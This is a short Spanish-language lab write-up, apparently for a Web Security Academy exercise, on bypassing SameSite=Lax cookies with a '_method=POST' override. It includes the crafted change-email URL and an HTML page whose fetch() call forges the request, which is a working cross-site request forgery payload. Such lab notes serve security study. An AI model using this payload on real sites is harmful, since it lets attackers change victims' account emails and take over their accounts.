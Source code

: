 ```yaml
---
layout: default
title: 07 - SameSite Lax bypass via method override
---
```

La cookie de sesión tiene Samesite=Lax por defecto, por lo que no puede ser enviada al hacer una solicitud desde nuestro dominio de ataque al otro dominio, por lo que no se incluirá en el POST al hacer la petición al cambio de correo.

Con lax solo se pueden enviar por GET, en este caso no se puede transformar la solicitud POST, pero si nos ha dejado hacer esto:

```
https://0a8c00d704be405382cd109300d200d3.web-security-academy.net/my-account/change-email?email=test111%40test.com&_method=POST
```

```html
<html>
    <script>
			fetch('https://0a8c00d704be405382cd109300d200d3.web-security-academy.net/my-account/change-email?email=test111%40test.com&_method=POST');
    </script>
</html>
```

